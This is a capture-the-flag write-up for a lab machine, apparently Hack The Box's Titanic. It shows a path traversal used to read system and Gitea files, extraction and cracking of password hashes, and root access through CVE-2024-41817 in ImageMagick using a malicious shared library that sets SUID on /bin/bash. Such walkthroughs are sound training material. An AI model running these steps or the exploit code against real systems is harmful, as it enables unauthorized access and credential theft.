





## Summary
User: Path traversal on the titanic.htb application\
Root: Arbitrary code execution via CVE-2024-41817(ImageMagick).

## Enumeration
Using an nmap scan, we can identify a web service on port 80 and SSH exposed on port 22.


nmap -Pn -p 80,22 10.129.175.139 -v -A
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS


## User
### Path traversal
While exploring `titanic.htb`, we notice that if we submit the booking form, a JSON of our booking data is downloaded.\


$ cat 5a41afb2-469c-4d75-8faf-4c1b70d398be.json | jq .
{
  "name": "test",
  "email": "test@test.com",
  "phone": "test-01",
  "date": "2025-06-18",
  "cabin": "Deluxe"
}

On Burp, the `ticket` parameter via the `/download` endpoint allows specifying the file to download.\
\
The lack of control or validation on this parameter allows us to read files on the machine via a path traversal.\
This vulnerability allows us to retrieve the following information:\
`/etc/passwd` indicates the existence of the user `developer`.\
`/etc/hosts` allows us to retrieve a new subdomain, `dev`.\
\

### Gitea
For now, we can't go further, let’s explore `dev.titanic.htb`.\
We find an instance of [Gitea](https://about.gitea.com/), a self-hosted version control tool using git.
\
We find two publicly accessible repositories, `docker-config` and `flask-app` .\
\
In the `docker-config` repository, we find MySQL crendentials in the file `/mysql/docker-compose.yml`.\
The nmap scan did not identify MySQL access, we keep these credentials aside.\
\
Still in this same repo, in `/gitea/docker-compose.yml`, we find the path to a volume.\
\
Using this path, the previously found path traversal vulnerability and Gitea documentation, we can retrieve the Gitea configuration file.\
After several attempts, it is located at `/home/developer/gitea/data/gitea/conf/app.ini`.\
In this config file, we find the path of the Gitea database, we use the website to retrieve it.\
\
Exploring this database with sqlite3, we can retrieve the hashes of `developer` and `administrator`.\

$ sqlite3 gitea.db                                                                                                               
...
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0

The hashes are in PBKDF2 format and can be converted using [gitea2hashcat.py](https://github.com/hashcat/hashcat/pull/4154/files#diff-ccd519555457fa8e0c74b0dc7bd66727216dd446c7bcff8cd5196fe919e2b000) to be compatible with Hashcat. Then, we can easily retrieve the `developer` account password.

$ sqlite3 gitea.db 'select salt,passwd from user;' | ./gitea2hashcat.py
[+] Run the output hashes through hashcat mode 10900 (PBKDF2-HMAC-SHA256)
sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=

$ hashcat -a 0 -m 10900 hash /usr/share/wordlists/rockyou.txt
...
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528

We use this password to SSH into the machine and retrieve the flag.\

$ ssh developer@titanic.htb
...
developer@titanic:~$ ls
gitea  mysql  user.txt
developer@titanic:~$ cat user.txt
e85d89a008cff72094f40882eb2f7d9b


## Root
### CVE-2024-41817(ImageMagick)
Once on the machine, we notice the script `identify_images.sh` in `/opt/scripts/`.

developer@titanic:/opt$ tree .
.
├── app
│   ├── app.py
│   ├── static
│   │   ├── assets
│   │   │   └── images
│   │   │       ├── entertainment.jpg
│   │   │       ├── exquisite-dining.jpg
│   │   │       ├── favicon.ico
│   │   │       ├── home.jpg
│   │   │       ├── luxury-cabins.jpg
│   │   │       └── metadata.log
│   │   └── styles.css
│   ├── templates
│   │   └── index.html
│   └── tickets
├── containerd  [error opening dir]
└── scripts
    └── identify_images.sh

8 directories, 10 files

developer@titanic:/opt$ cat scripts/identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log

This command identifies the format and characteristics of files ending with .jpg in `/opt/app/static/assets/images/` and stores them in `/opt/app/static/assets/metadata.log`.\
We notice the timestamp of metadata.log is updated every minute, the script is owned by root so it could be in a cron job.\
The commands `truncate`, `find`, `xargs` are not exploitable here. `Imagemagick` being a tool used in CTFs in vulnerable versions, we look for CVEs associated with its version `7.1.1-35`.\

developer@titanic:~$ magick --version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
...


We find [this advisory on Github](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) regarding `CVE-2024-41817` allowing arbitrary code execution on versions <= 7.1.1-35.\
To obtain code execution as root, we will adapt the POC mentioned by replacing id to set the SUID on /bin/bash.

developer@titanic:/tmp$ cat libxcb 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod +s /bin/bash");
    exit(0);
}

developer@titanic:/tmp$ gcc -x c -shared libxcb.c -fPIC -o ./libxcb.so.1
developer@titanic:/tmp$ mv libxcb.so.1 /opt/app/static/assets/images/

developer@titanic:/tmp$ ls -ld /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14  2024 /bin/bash
developer@titanic:/tmp$ bash -p
bash-5.1# id
uid=1000(developer) gid=1000(developer) euid=0(root) egid=0(root) groups=0(root),1000(developer)
bash-5.1# ls /root
cleanup.sh  images  revert.sh  root.txt  snap


## Resources
> [gitea2hashcat.py](https://github.com/hashcat/hashcat/pull/4154/files#diff-ccd519555457fa8e0c74b0dc7bd66727216dd446c7bcff8cd5196fe919e2b000)\
> [Advisory Github for CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)